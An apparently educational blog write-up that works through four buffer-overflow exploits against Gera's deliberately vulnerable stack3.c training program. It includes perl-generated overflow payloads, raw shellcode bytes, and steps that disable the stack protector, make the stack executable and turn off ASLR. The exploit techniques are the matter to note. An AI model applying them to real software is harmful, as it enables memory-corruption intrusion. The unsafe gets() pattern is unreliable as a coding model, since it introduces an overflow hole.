 Gera's Warming Up on Stack #3 - Solutions
==========================================
date: 03/Jan/2013
summary: Solutions for Gera's Warming up on Stack #3 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 3 in the series of posts I started back in August
2012 with an aim to provide an analysis and possible solutions for the
vulnerable programs provided by
[Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte)
at his [Insecure
Programming](http://community.corest.com/%7Egera/InsecureProgramming/)
by example page.

This post follows the [Gera's Warming Up on Stack #2 -
Solutions](/2013/1/2/geras-wuos-stack2-solutions/) post and if you have
not read it, I request you to please do so. Most of the concepts are
very similar and since they have been already talked about, I'll not be
reiterating them here.

Let's get started. Below is the source for the vulnerable
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
program:

```c
/* stack3.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020005)
        printf("you win!\n");
}
```

The above program accepts user-input through the `gets` function and
then looks for a specific value in a local variable named `cookie`. If
this value is equal to a certain pre-defined constant, `printf` function
is used to show a `you win!` message to the user. There is no direct
means of modifying the content of the `cookie` variable. The `gets`
function will keep reading from the stdin device until it encounters a
newline or EoF character. Since this reading loop fails to honor the
size of the destination buffer, a classic buffer overflow vulnerability
is introduced in the program. Our aim is to leverage this vulnerability
and exploit this program so that it print the `you win!` message to
stdout.

Here are a few observations that could be made by looking at the source
of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
is identical to
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
as already outlined in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post.

Here are solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Overflow the internal `buf` array to overwrite
    `cookie` with 0x01020005
-   Solution #2: Overflow the internal `buf` array to overwrite EIP
    with the address of `printf(you win!)`
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```shell
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite cookie with 0x01020005
---------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
for this solution:

```shell
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack3 stack3.c
stack3.c: In function ‘main’:
stack3.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccuoj5F5.o: In function `main':
stack3.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html):

```shell
# perl -e 'print "A"x80 . "\x05\x00\x02\x01"' | ./stack3
buf: bfd625a4 cookie: bfd625f4
you win!
```

Solution #2: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

We need to have a look at the assembly of
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
and find out the location of the `printf` function which displays the
`you win!` message:

```shell
# objdump -d -M intel stack3 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 <printf@plt>
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 <gets@plt>
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 00 02 01          cmp    eax,0x1020005
 8048477:   75 0c                   jne    8048485 <main+0x41>
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 <puts@plt>
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```shell
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack3
buf: bfb82e64 cookie: bfb82eb4
you win!
Segmentation fault
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Let's first recompile
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
and request GCC to mark program stack as executable. Additionally, we
also need to turn ASLR off so that we can have a static return address
to overwrite EIP with:

```shell
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack3 stack3.c 2>/dev/null ; readelf -l stack3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed
`printf(you win!)` shellcode we used to exploit
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post could be reused
here:

```shell
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #4: Inject a NOP-prefixed printf(you win!) shellcode through an environment var overwrite EIP with its address
------------------------------------------------------------------------------------------------------------------------

Lets get straight to exploitation:

```shell
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack3
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the
[stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html)
program through four different techniques. Depending on the motive of
your exploitation attempt, other techniques could be devised and some,
mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They
just serve the purpose of understanding how exploits used to work before
mitigation features were introduced in modern systems. But, as with
everything else, understanding basics is really important. As mitigation
features mature, exploitation techniques become increasingly complex.
And to understand those, we need to build upon the solid foundation of
basic concepts, like those discussed on this and other blogs.
